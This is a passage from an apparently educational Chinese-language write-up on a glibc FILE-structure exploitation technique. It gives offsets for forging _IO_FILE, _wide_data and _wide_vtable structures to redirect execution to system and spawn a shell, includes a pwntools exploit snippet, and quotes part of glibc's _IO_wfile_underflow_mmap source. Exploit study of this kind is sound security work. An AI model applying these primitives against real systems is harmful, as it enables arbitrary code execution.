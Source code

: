 - `_flags` 设置为 `~(2 | 0x8 | 0x800)`，如果不需要控制 `rdi`，设置为 `0` 即可；如果需要获得 shell，可设置为 `  sh;`，注意前面有两个空格
- vtable 设置为 `_IO_wfile_jumps` / `_IO_wfile_jumps_mmap` / `_IO_wfile_jumps_maybe_mmap` 地址（加减偏移），使其能成功调用 `_IO_wfile_overflow` 即可
- `_wide_data`（偏移为 0xa0）设置为可控堆地址 A
- `_wide_data->_IO_write_base`（偏移为 0x18）设置为 0
- `_wide_data->_IO_buf_base`（偏移为 0x30）设置为 0
- `_wide_data->_wide_vtable`（偏移为 0xe0）设置为可控堆地址 B
- `_wide_data->_wide_vtable->doallocate`（偏移为 0x68）设置为 ogg or `system` 拿 shell


一个 exp 构造如下：

```python
fakeio = flat({
    0: b"\x20\x80||sh",
    0x20: 0,
    0x28: 1,
    # 0x88: libc.sym['_IO_stdfile_2_lock'],  # glibc 2.38 以上会 check _lock 字段
    0xa0: heap_addr + 0x43010,  # _wide_data
    0xd8: libc.sym['_IO_wfile_jumps']
}, filler=b"\x00")

fakewide = flat({
    0x18: 0,
    0x30: 0,
    0xe0: heap_addr + 0x65010,
}, filler=b"\x00")

fake_wide_vtable = flat({
    0x68: libc.sym['system']
}, filler=b"\x00")
```

也就是要伪造一个 `_IO_FILE` 结构体，一个 `_wide_data` 结构体，一个 `_wide_vtable` 结构体



#### _IO_wfile_underflow_mmap

```c
#define _IO_NO_READS 4 /* Reading not allowed */

static wint_t
_IO_wfile_underflow_mmap (FILE *fp)
{
  struct _IO_codecvt *cd;
  const char *read_stop;

  if (__glibc_unlikely (fp->_flags & _IO_NO_READS))
    {
      fp->_flags |= _IO_ERR_SEEN;
      __set_errno (EBADF);
      return WEOF;
    }
  if (fp->_wide_data->_IO_read_ptr < fp->_wide_data->_IO_read_end)
    return *fp->_wide_data->_IO_read_ptr;

  cd = fp->_codecvt;

  /* Maybe there is something left in the external buffer.  */
  if (fp->_IO_read_ptr >= fp->_IO_read_end
      /* No.  But maybe the read buffer is not fully set up.  */
      && _IO_file_underflow_mmap (fp) == EOF)
    /* Nothing available.  _IO_file_underflow_mmap has set the EOF or error
       flags as appropriate.  */
    return WEOF;

```